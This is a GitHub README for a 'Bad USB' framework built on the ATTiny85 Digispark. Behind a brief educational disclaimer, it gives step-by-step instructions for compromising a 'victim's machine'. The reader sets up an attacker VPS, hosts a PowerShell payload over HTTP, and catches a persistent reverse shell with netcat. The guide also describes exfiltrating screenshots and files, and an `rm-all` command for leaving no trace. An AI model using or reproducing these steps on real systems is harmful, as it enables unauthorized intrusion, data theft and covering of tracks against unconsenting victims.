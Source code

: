 # Bad USB Framework

## DISCLAIMER

This framework is intended for educational purposes. Malicious use of this framework is **NOT** encouraged. If you wish to perform any action on other computers, ensure you have prior approval from the rightful owner. Remember: **hack responsibly.**

## TLDR

This framework is intended to get you started with scripting your own malicious USB using the `ATTiny85 Digispark scripting`. The entirety of this framework is intended to be used on your attacker machine/VPS. I highly recommend cloning this repository and working off of it. Follow the `Step-by-Step Guide` to fully setup using `DigitalOcean` as the attacker VPS of choice.

### NOTE

> None of this is originally made by me. This is a collection of my favourite scripts out there and modified to suit this framework. To se the original creators, head over to the `Credits` section of this document.

## Pre-Requisites

You can purchase a pre-made bad USB online or make one your own. **Make sure that it is using an ATTiny85 arduino!**

You need the following on your machine to load the scripts onto your USB:

1. Arduino IDE configured following this [tutorial](https://startingelectronics.org/tutorials/arduino/digispark/digispark-windows-setup/).

You need to have the following on your VPS or attacker machine:

1. Python3
2. Internet Connection (Duh)

## Setup

For this demo/tutorial we will be focussing on the basic script to get you started. Use what you know and have learned to make your own attack methods. Be creative!

The file we are focusing on is `./scripts/The-Go-To.ino` where we will enable scripts on the victims machine and return a persistent reverse shell to us, the attacker.

### Seting Up your VPS

Setup a `Digital Ocean VPS Droplet` with Ubuntu LTS and perform a full upgrade.

Clone this repository into the droplet and go into the directory.

![The frameworks home directory](./README_img/home_directory.png)

### Modifying Files

There are two files we need to modify for this demo: `./payloads/payload.ps1` and `./scritps/The-Go-To.ino`.

Within the files, you will find either `[FILE_SERVER]` or `[IP_ADDRESS]`.

In `payloads.ps1`, just change it to the VPS's IP address. In `The-Go-To.ino`, change it to `http://<IP_ADDRESS>`.

### Setting Up Payload File Server

Within the `payloads/` directory, host a simple HTTP server using Python3 using:

```bash
cd payloads
python3 -m http.server 80
```

![Hosting the fileserver.](./README_img/hosting_fileserver.png)

*Note: To run this HTTP server after you close the CLI, consider using `screen`. Documentation can be found [here](https://www.gnu.org/software/screen/manual/screen.html).*

### Your Bad USB

You can use the readily available script in the file [The-Go-To.ino](./scripts/The-Go-To.ino) for this tutorial.

Open `Arduino IDE` and paste the contents of the file. Load the script onto your `Bad USB`.

*Note: Remember to alter the script contents to fit your needs, such as the attacker's HTTP server where you are hosting the payload.*

## The Attack

Now all you need to do is plug in your `Bad USB` on your victim's machine and let the magic happen. On your attacker machine, you should be able to see a connection being made from the victims machine. This means that the payload has been downloaded and if all goes well you should be able to obtain a persitent reverse shell by running:

```bash
nc -lnvp 4444
```

![Reverse Shell](./README_img/netcat.png)

### Exploitations

From here you can perform tasks just as any other reverse shell. There are some additional commands as well:

1. `screenshot` (Returns a Base64 encoding of their screenshot. Pipe the output into a file and use `./exfiltrated_data/reverse_shell/Base62_Decoder.sh` to decode the files.)
2. `transfer` (Similar to `screenshot` but transfers files. Must use absolute path.)
3. `rm-all` (Removes connection and deletes all files. Leaving no trace.)

### Recommendations

Change to the `./exfiltrated_data/reverse_shell/` directory and run `netcat` here. Be sure to pipe the outputs into a file.

```bash
nc -lnvp 4444 | tee output
```

Once done, you can decode all the exfiltrated files and screeenshots using the following command:

```bash
bash ./Base62_Decoder.sh ./output
```

It will then decode all the files that you've extracted.

## Moving On

This is just the start for you. Go crazy. But remember: **hack responsibly**. Have fun suckers - *narwhal*

## Credits

[AFNordal - Persistant Reverse Shell](https://github.com/AFNordal/powershell_reverseTCPshell)

[CedArctic - Various DigitSpark Scripts](https://github.com/CedArctic/DigiSpark-Scripts)

